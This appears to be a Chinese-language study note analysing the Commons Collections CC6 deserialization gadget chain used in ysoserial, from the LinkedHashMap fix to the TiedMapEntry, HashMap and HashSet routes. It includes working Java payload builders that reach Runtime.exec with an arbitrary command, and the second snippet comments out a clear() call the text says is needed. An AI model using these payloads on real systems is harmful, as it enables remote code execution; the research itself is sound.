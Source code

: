 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollections6

## 0x01 高版本不可行原因 - LinkedHashMap

在上一篇分析对 CC1 进行总结时，提到在 jdk 8u71 版本时，在`AnnotationInvocationHandler` 类中引入  `LinkedHashMap` 导致无法利用，首先来分析一下原因。

`AnnotationInvocationHandler` 类同时实现了 `InvocationHandler` 和 `Serializable` 接口，需要注意的是会首先调用 `readObject()` 方法，根据序列化数据重建对象，后续才会再进入代理对象的 `invoke()` 方法。

而在 `readObject()` 方法中，将 memberValues 定义为 `LinkedHashMap`，而不是前面提到的 `LazyMap` 或 `TransformedMap`，自然无法形成调用链。

![image-20231221212024044](attachments/image-20231221212024044.png)

还是以 `LazyMap` 为例，既然通过 `entrySet()` 的方式走不通，那就再找找其他调用了 `LazyMap.get()` 的方法。

## 0x02 TiedMapEntry

`org.apache.commons.collections.keyvalue.TiedMapEntry` 类的 `getValue()` 方法调用了 `map.get()` ，map 对象通过 `TiedMapEntry` 的构造方法赋值。

![image-20231221212550543](attachments/image-20231221212550543.png)

并且 `getValue()` 方法在 `TiedMapEntry.hashCode()` 中被调用。

![image-20230328140345449](attachments/image-20230328140345449.png)

## 0x03 HashMap

在分析 `URLDNS` 时提到 HashMap 是实现了 Serializable 的，在反序列化 HashMap 时会计算 key 的 hash 即会调用 `hashCode()`  方法进行计算，那么同样可以用这种方式触发 `TiedMapEntry.hashCode()`。当然也会遇到与之前一致的问题调用 `HashMap.put()` 时提前触发，再复习一下之前的解决思路。

1. URLDNS 反射调用 `putVal()` 写入 key
2. CC1 LazyMap 先传一个空的 `ChainedTransformer` ，再反射将有威胁的 `Transformer[]` 写入

实现如下：

```java
    public Serializable getObject(final String command) throws Exception {
        final String[] execArgs = new String[]{command};
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, execArgs),
                new ConstantTransformer(1)};


        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "Whoopsunix");

        HashMap hashMap = new HashMap();
        hashMap.put(entry, "Whoopsunix");


        lazyMap.clear();

        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);

        return hashMap;
    }
```

## 0x04 HashSet

而在 ysoserial 中使用的则是 `java.util.HashSet` ，HashSet 基于 HashMap 来实现的，是一个不允许有重复元素的集合。HashSet 的值存在 HashMap key 上，value 恒为 `private static final Object PRESENT = new Object();`

![image-20230802143758190](attachments/image-20230802143758190.png)

在 `HashSet#readObject()` 中会直接对我们的输入流进行反序列化，并将该对象作为 key 值保存到 HashMap，`put()` 方法会执行 `hashCode()` 方法计算 key 的 hash。（ hashcode() 方法广泛的运用在 Map 的各种操作，比如 get、put、remove等）

所以总结起来这条 gadget 的大致实现思路： `java.util.HashSet#readObject()` -> `HashMap#put()` -> `HashMap#hash(key)` -> `TiedMapEntry#hashCode()` 

我们注意到 ysoserial 中是实现反射获取了 HashMap 中的 table 属性（即 HashMap 的底层存储），通过反射的方式将 table中的 key 值修改为 HashSet ，那么如果直接向 HashSet 中添加 entry 对象会发生什么？

![image-20230328164611397](attachments/image-20230328164611397.png)

在序列化时执行 HashMap 的 put() 方法时会计算 key 的 hashcode，而这时的 key 值为 TiedMapEntry，根据 HashMap 的 hash() 方法，会执行其 hashCode() 方法。

![image-20230802142258547](attachments/image-20230802142258547.png)

TiedMapEntry.hashCode() 调用 getValue() ，其中的 map 通过 TiedMapEntry 构造方法赋值为 Lazymap

![image-20230802143306526](attachments/image-20230802143306526.png)

LazyMap get() 方法由于不存在 foo 这个 key 所以执行 put() 方法。那么反序列化的时候再进入 get() 方法时就不满足 if 条件，所以 ysoserial 中通过反射更改了这个 key 值为 TiedMapEntry。

![image-20230328165538075](attachments/image-20230328165538075.png)

但我们思考一下，既然问题出在 LazyMap 存在 foo 这个 key ，HashSet 又需要 TiedMapEntry 对象作为 key ，那么可以针对第三点中 HashMap 的例子进行改造，HashSet 中传入 TiedMapEntry 作为 key ，再对 LazyMap 执行一次 `clear()` 去除因为 `HashMap.put()` 造成的影响，Hashmap 和 Hashset 的写法都可以。

缝合后如下：

```java
    public Serializable getObject(final String command) throws Exception {
        final String[] execArgs = new String[]{command};
        // inert chain for setup
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, execArgs),
                new ConstantTransformer(1)};


        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap, "Whoopsunix");

        // way A
        HashMap hashMap = new HashMap();
        hashMap.put(entry, "Whoopsunix");
//        lazyMap.clear();
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
        return hashMap;

        // way B
//        HashMap hashMap = new HashMap();
//        hashMap.put(entry, "Whoopsunix");
//        HashSet hashSet = new HashSet(hashMap.keySet());
//        lazyMap.clear();
//        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
//        return hashSet;
    }
```

